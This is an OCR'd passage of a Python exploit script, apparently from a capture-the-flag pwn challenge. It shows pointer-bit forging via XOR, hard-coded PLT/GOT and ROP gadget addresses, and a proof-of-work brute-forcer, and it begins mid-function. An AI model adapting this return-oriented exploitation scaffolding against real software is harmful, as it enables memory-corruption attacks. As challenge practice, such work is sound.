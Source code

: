 ```python
    d4 = int(ni[3][7-3])
    d5 = int(ni[3][7-4])
    d6 = int(ni[3][7-5])
    d7 = int(ni[3][7-6])
    d8 = int(ni[3][7-7])

    c1 = int(ni[2][7-0])
    c2 = int(ni[2][7-1])
    c3 = int(ni[2][7-2])
    c4 = int(ni[2][7-3])
    c5 = int(ni[2][7-4])
    c6 = int(ni[2][7-5])
    c7 = int(ni[2][7-6])
    c8 = int(ni[2][7-7])

    y7 = d7^c8
    y6 = d6^c7
    y5 = d5^c6
    y4 = d4^c5
    y3 = d3^c4
    y2 = d2^c3
    y1 = d1^c2

    g1 = y4^d8
    g2 = y2^d7
    g3 = y3^d6
    g4 = y1^d5

    r7=int(no[7][2])
    r6=int(no[7][3])
    r5=int(no[7][4])
    r4=int(no[7][5])
    r3=int(no[7][6])
    r2=int(no[7][7])
    r1=int(no[6][0])

    p7 = y7 ^ r7
    p6 = y6 ^ r6
    p5 = y5 ^ r5
    p4 = g1 ^ r4
    p3 = g2 ^ r3
    p2 = g3 ^ r2
    p1 = g4 ^ r1

    return (int(str(p7)+str(p6)+str(p5)+str(p4)+str(p3)+str(p2)+str(p1), 2) << 48) | inp

puts_plt = 0x4006c0
printf_got = 0x411fe0
name_addr = 0x412030
gadget1 = 0x400fd8
gadget2 = 0x400ff8
main = 0x400e84

def bruteforce(pt, ct):
    hashtype = sha256
    pt = pt.decode()
    digest = ct.decode()
    prefix = mbruteforce(
        lambda x: hashtype((x+pt).encode()).hexdigest() == digest,
        string.ascii_letters+string.digits,
        length = 4,
        method = "fixed"
    )
```
